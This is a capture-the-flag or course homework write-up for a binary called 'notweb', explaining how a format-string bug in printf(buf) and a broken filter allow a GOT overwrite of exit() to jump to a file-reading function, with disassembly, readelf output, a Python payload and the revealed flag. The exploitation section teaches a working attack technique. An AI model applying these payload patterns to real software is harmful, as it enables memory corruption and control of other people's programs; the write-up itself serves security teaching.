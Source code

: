 ```yaml
---
title: notweb Writeup
category: memo
slug: notweb-writeup
date: 2014-11-27
---
```

Security Programming Homework 3-2

## Finding Weak Points

After using gdb to do the dynamic analysis, I found that function `main()`
will call function `get_request()`. So I set the break point at the line
which calls `get_request()` and check it out step by step. The program calls
`fgets()` to get the input, and using `strtok()` to chop the string
according to the spaces. If the whold string only consists of one single word,
it calls exit to terminate the program. Otherwise the program will go on.

```nasm
08048a51:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
08048a54:       83 7d ec 00             cmp    DWORD PTR [ebp-0x14],0x0
08048a58:       75 0c                   jne    8048a66 <get_request+0x90>
08048a5a:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
08048a61:       e8 ea fb ff ff          call   8048650 <exit@plt>
```

The variable `buf` sucks in the whole line of input then splits the input
into tokens according to space and colon. A diagram is showed below:

```text
ORIGINAL INPUT:

GET /echo:%x%x%x%x%x
|   |     |
|   |     v
|   v     stored in local variable in ``main()``, using ``s`` as example
v   length of the string is 5, the first character is stored in ``file``
abandoned
```

And there is a piece of code that contains `printf(buf)` in the function
`echo()`. With this, exploiting the vulnerability of format string to leak
arbitrary memory is easy. Even write some values into memory could be possible.

## Weird Filter

In `get_request()`, the first n bytes of global variable `buf` will be
eliminated before return. This will make the second for loop in
`filter_format()` has no effect. Because the first n bytes of global variable
`buf` are already been cleared with zeros, the length of the string is zero.
Thus the for loop will ended up immediately. As a result, the global `buf`
remains, '%' is not replaced with '\_'.

In function `echo()`, after calling `filter_format()`, the string which is
after ':' ('%' have already been replaced with '\_') will be copied to the front
end of the global variable `buf`. This could make the string which is after
':' of the global variable `buf` ('%' are not replaced with '\_') being
overlaped. So extra calculation must be taken to assure the target string not
being messed, if someone want to exploit the program using format string.

According to the example string which is entered into the program, the value in
the global variable `buf` before calling `printf(buf)` in function
`echo()` is:

```text
_x_x_x_x_x\nx%x%x%x%x\n
```

The result showed up is:

```text
_x_x_x_x_x
xfffe4f4cbf7f4b3d00
```

If the length of the string after ':' (including '\n') is exactly 10, it can
overwrite the byte which contains ':' (':' is replaced with string terminator
because of `strtok`). In the end, the whole string is connected again, rear
part is our original format string.

Padding some trival characters between ':' and the format string to ensure to
connect the global variable `buf` again, if the lenth of the string is less
than 10.

```text
GET /echo:aaaaaaa%p
```

For the string which is longer than 10, one must pad some trival characters to
make sure the format string won't be covered by something useless by the
fxxking program logic.

```text
GGET /echo:%p%p%p%p%p
```

## Objective

The return address is at `$esp+0x1c` in `echo()`, that is to say, using
`%7$p` could leak the return address (of course the length must be at least
10 characters). Our objective is to modify the address (0x0804917f) with the
address of function `normal_file()` (0x08048c8f). Besides, the content of the
global variable `file` should be "flag". With all of this, the function
`normal_file()` can have the ability of opening the file of the flag and
reading that file. The gods send nut to those who have no teeth, the server
side has already enabled ASLR, so we cannot know the location of the return
address in the stack. Thus, exploitation using format string to overwrite the
return address in the stack is not practical.

However, there's another way to control the `eip` though the return address
cannot be modified. The Global Offset Table (GOT) might be a good candidate.
The offset of the function `fflush()` in the GOT is 0x0804b018. The content
in that is the actual position of `fflush()` (0xf7e78760) after GLIBC was
dynamically loaded into the program. So we just have to replace the address
with the address of `normal_file()`. But again, the gods send nut to those
who have no theeth, there is a `fflush()` in the function `normal_file()`.
So doing this will cause an endless loop. A better choice is to modify the
address of the function `exit()` in the GOT to avoid that. The offset of the
function `exit()` in the GOT is 0x0804b03c.

```bash
$ readelf -r notweb

Relocation section '.rel.dyn' at offset 0x49c contains 3 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804affc  00000c06 R_386_GLOB_DAT    00000000   __gmon_start__
 0804b080  00001805 R_386_COPY        0804b080   stdin
 0804b0a0  00001605 R_386_COPY        0804b0a0   stdout

Relocation section '.rel.plt' at offset 0x4b4 contains 21 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804b00c  00000107 R_386_JUMP_SLOT   00000000   strstr
 0804b010  00000207 R_386_JUMP_SLOT   00000000   strcmp
 0804b014  00000307 R_386_JUMP_SLOT   00000000   printf
 0804b018  00000407 R_386_JUMP_SLOT   00000000   fflush
 0804b01c  00000507 R_386_JUMP_SLOT   00000000   memcpy
 0804b020  00000607 R_386_JUMP_SLOT   00000000   bzero
 0804b024  00000707 R_386_JUMP_SLOT   00000000   fgets
 0804b028  00000807 R_386_JUMP_SLOT   00000000   fclose
 0804b02c  00000907 R_386_JUMP_SLOT   00000000   chdir
 0804b030  00000a07 R_386_JUMP_SLOT   00000000   fseek
 0804b034  00000b07 R_386_JUMP_SLOT   00000000   fread
 0804b038  00000c07 R_386_JUMP_SLOT   00000000   __gmon_start__
 0804b03c  00000d07 R_386_JUMP_SLOT   00000000   exit
 0804b040  00000e07 R_386_JUMP_SLOT   00000000   strlen
 0804b044  00000f07 R_386_JUMP_SLOT   00000000   __libc_start_main
 0804b048  00001007 R_386_JUMP_SLOT   00000000   write
 0804b04c  00001107 R_386_JUMP_SLOT   00000000   ftell
 0804b050  00001207 R_386_JUMP_SLOT   00000000   fopen
 0804b054  00001307 R_386_JUMP_SLOT   00000000   strncpy
 0804b058  00001407 R_386_JUMP_SLOT   00000000   strtok
 0804b05c  00001507 R_386_JUMP_SLOT   00000000   sprintf
```

Besides controlling the `eip`, the global variable `file` should be set to
the string "flag", too.

## Exploitation

The key point is that how to design the payload and keep the original format
string from destroying by the filter. The following is the main part of the
exploitation code.

```python
# exit()'s offset in GOT showed up in stack fram
# normal_file() @ 0x08048c8f
# total 16 bytes
addr1  = struct.pack('<I', 0x0804b03c) # 0x8f
addr1 += struct.pack('<I', 0x0804b03d) # 0x8c
addr1 += struct.pack('<I', 0x0804b03e) # 0x04
addr1 += struct.pack('<I', 0x0804b03f) # 0x08

# file's address showed up in stack frame
# file @ 0x080637e0
# total 16 bytes
addr2  = struct.pack('<I', 0x080637e0) # 'f': 0x66 102
addr2 += struct.pack('<I', 0x080637e1) # 'l': 0x6c
addr2 += struct.pack('<I', 0x080637e2) # 'a': 0x61
addr2 += struct.pack('<I', 0x080637e3) # 'g': 0x67

inject1 = '%7c%15$hhn%253c%16$hhn%120c%17$hhn%4c%18$hhn' # 44 bytes
inject2 = '%78c%30$hhn%6c%31$hhn%245c%32$hhn%6c%33$hhna' # 44 bytes

padding = 'G'*110

payload = padding + 'GET /echo:' + addr1 + inject1 + addr2 + inject2 + '\n'
```

## Flag

The flag is:

```text
SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}
```
